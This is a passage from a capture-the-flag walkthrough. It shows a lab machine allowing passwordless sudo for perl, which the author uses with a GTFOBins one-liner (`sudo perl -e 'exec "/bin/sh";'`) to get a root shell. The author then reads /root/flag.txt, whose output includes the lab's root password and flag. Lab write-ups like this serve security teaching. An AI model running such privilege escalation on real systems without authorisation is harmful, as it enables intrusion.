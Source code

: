 To which the machine tells us that we can run perl as root, and we don't even
need to give a password to do so. This is going to be the best target for us to
go for.

In order to take advantage of this, we are going to need to figure out how to
make a shell with perl. Luckily we have resources that can help us, such as
[GTFOBins](https://gtfobins.github.io/).

![sudo section of gtfobins perl](../../Assets/Metasploit_CTF/gtfobins_perl_800x177.jpg)

Searching up perl on the website, we can see that we can use perl exec to create
a shell on the spot. If we just run the command on our shell, it should
upgrade our user to root.

```shell
sudo perl -e 'exec "/bin/sh";'
```

After that, if we run whoami we can see that we are now the root user

```shell
# whoami
root
```

# Collect the flag and win

Now that we have our root user, we now need to cat the file in `/root/flag.txt`.

```shell
# cat /root/flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```
